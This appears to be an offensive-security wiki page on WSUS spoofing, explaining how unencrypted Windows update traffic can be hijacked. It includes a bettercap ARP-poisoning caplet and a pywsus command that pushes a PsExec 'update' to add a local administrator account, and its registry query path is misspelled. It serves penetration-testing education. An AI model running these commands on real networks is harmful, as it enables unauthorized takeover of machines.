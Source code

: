 # WSUS spoofing

## Theory

WSUS (Windows Server Update Services) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute (which can only be a binary signed by Microsoft) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## Practice

The following command prints the WSUS server the client requests when searching for an update. If the path looks like `http://wsus.domain.local/`, showing the use of HTTP instead of HTTPS, the attacks can be attempted.

```
reg query HKML\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver
```

The WSUS spoofing attack can be conducted as follows

1. Obtain a Man-in-the-Middle position between clients and the update server with [ARP poisoning](../../../ad/movement/mitm-and-coerced-authentications/arp-poisoning.md).
2. Redirect traffic from `clients -> legitimate WSUS` to `clients -> attacker's WSUS`
3. Have a custom WSUS server running able to send evil updates to clients

In a scenario where the clients and the attacker are on the same subnet, and the update server is on another one, the steps below can be followed. For other scenarios or more info on ARP poisoning, have a look at : [ARP poisoning](../../../ad/movement/mitm-and-coerced-authentications/arp-poisoning.md).

### Preparing the evil WSUS

The evil WSUS server needs to be started before doing any ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)(Python) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called [Living off the land](living-off-the-land.md) (LOL). Other Windows LOL binaries and scripts (a.k.a. LOLbins or LOLbas) can be found on [lolbas-project.github.io](https://lolbas-project.github.io/#).

### Poisoning and hijacking

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org) (Go) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

{% code title="wsus_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.&#x20;

{% hint style="info" %}
By default, the automatic updates interval is 22 hours ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}

## Alternative attack

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## Resources

{% embed url="https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/" %}
